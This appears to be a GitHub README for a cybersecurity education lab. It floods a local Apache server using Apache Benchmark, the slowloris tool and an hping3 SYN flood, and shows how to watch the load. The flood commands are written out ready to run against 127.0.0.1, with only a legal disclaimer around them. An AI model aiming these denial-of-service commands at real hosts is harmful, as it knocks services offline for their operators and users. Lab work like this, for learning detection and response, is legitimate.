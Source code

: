 # DDoS Attack Simulation Lab (Safe Environment)

This project simulates a Denial-of-Service (DoS) and basic DDoS-style attack in a controlled, offline lab environment for cybersecurity education. No external systems were harmed or targeted. This is a legal, ethical simulation for learning and documentation only.

---

## ⚠️ Legal Disclaimer

This project is for **educational use only**. Do not use any tools or scripts from this lab to attack public websites, networks, or systems without **explicit permission**.

##  Setup Requirements
```
- Kali Linux or Ubuntu VM
- Apache2 web server as target
- Tools: `ab`, `hping3`, `slowloris`
```
Install them:

```bash
sudo apt update
sudo apt install apache2 apache2-utils hping3 git -y
```
![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/0.png)

Install `slowloris`:

```bash
git clone https://github.com/gkbrk/slowloris
```

---

##  Step-by-Step Execution

### 1. Start the Target Server

```bash
sudo systemctl start apache2
```

Verify at: `http://127.0.0.1`

![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/1.png)

### 2. Launch the Attacks

Run each attack separately from `attack.sh` or manually.

#### A. Apache Benchmark

```bash
ab -n 1000 -c 100 http://127.0.0.1/ >> attack.log
```
![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/2.png)
#### B. Slowloris

```bash
python3 slowloris/slowloris.py 127.0.0.1 >> attack.log
```

#### C. hping3 SYN Flood

```bash
sudo hping3 -S 127.0.0.1 -p 80 --flood >> attack.log
```
![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/4.png)

(Interrupt with `Ctrl+C` after 5–10 sec)

---

##  Monitoring

While running attacks, open a second terminal and run:

```bash
top
htop
iftop -i lo
```
![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/5.png)
![DDoS Simulation Lab](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/IntermediateProjects/DDoS-Lab/screenshots/55.png)
## Educational Value

- Shows how stress on services impacts performance
- Simulates real-world traffic spikes (e.g., botnet flood)
- Trains for detection & response (IDS, logs, firewall tuning)

